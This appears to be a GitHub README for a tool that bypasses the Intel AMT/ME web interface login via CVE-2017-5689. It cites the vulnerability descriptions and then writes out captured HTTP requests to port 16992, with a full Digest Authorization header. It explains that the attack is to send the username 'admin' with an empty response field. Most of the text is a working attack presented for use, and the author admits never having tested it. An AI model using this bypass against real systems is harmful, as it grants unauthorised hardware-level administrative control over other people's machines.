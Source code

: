 # Intel_IME_WebUI_bypass
does this even work?

This has some new things I have never done before and I am still testing it... haven't even run the darn thing yet but it looks like it works I guess.

################################################################################
This is a tool to persist an Intel IME admin session by modifying the GET 
request to have the "response:" field empty in every request. 
The web portal presented by the HARDWARE uses an MD5 in the response body to
authenticate and per the link given, can be bypassed by simply emptying it.
https://www.ssh.com/vulnerability/intel-amt/

CVE-2017-5689

  https://nvd.nist.gov/vuln/detail/CVE-2017-5689
 
  An unprivileged network attacker could gain system privileges to 
  provisioned Intel manageability SKUs: Intel Active Management Technology 
  (AMT) and Intel Standard Manageability (ISM). An unprivileged local attacker
  could provision manageability features gaining unprivileged network or local
  system privileges on Intel manageability SKUs: Intel Active Management 
  Technology (AMT), Intel Standard Manageability (ISM), and Intel Small 
  Business Technology (SBT).
 
################################################################################

 FIRST REQUEST:
 
################################################################################

 GET /index.htm HTTP/1.1
 
 Host: 192.168.0.44:16992
 
 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:73.0) Gecko/20100101 
 
   Firefox/73.0
   
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,
 
   */*;q=0.8
   
 Accept-Language: en-US,en;q=0.5
 
 Accept-Encoding: gzip, deflate
 
 Connection: close
 
 Referer: http://192.168.0.44:16992/logon.htm
 
 Upgrade-Insecure-Requests: 1

###############################################################################

 SECOND REQUEST
 
###############################################################################
 
 GET /index.htm HTTP/1.1
 
 Host: 192.168.0.44:16992

 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:73.0) Gecko/20100101 Firefox/73.0

 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

 Accept-Language: en-US,en;q=0.5

 Accept-Encoding: gzip, deflate

 Connection: close

 Referer: http://192.168.0.44:16992/logon.htm

 Upgrade-Insecure-Requests: 1
 
 Authorization: Digest username="admin", 
       
       realm="Digest:72C40000000000000000000000000000", 
       
       nonce="WT7ZAQsLAABEyoVgz4/+bFmvwKIRUvUI", 
       
       uri="/index.htm", 
       
       response="9621f86ecc7d8f680213ddc2aae3f21d", 
       
       qop=auth, 
       
       nc=00000001,
       
       cnonce="96d5787909ac7ea7"
       
################################################################################

 WE MODIFY 'response=""' TO BE EMPTY WITH THE USERNAME "ADMIN" THAT IS ALL
 
################################################################################
